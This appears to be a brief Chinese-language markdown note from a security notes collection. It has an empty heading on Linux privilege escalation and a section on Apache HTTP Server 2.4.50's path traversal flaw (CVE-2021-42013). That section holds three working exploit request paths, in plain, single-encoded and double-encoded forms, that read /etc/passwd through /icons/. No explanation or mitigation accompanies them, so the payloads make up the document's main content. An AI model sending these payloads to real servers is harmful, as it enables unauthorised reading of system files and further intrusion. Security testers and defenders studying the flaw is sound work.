




# linux 提权




# Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）



```shell
/icons/../../../../../../../etc/passwd
/icons/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

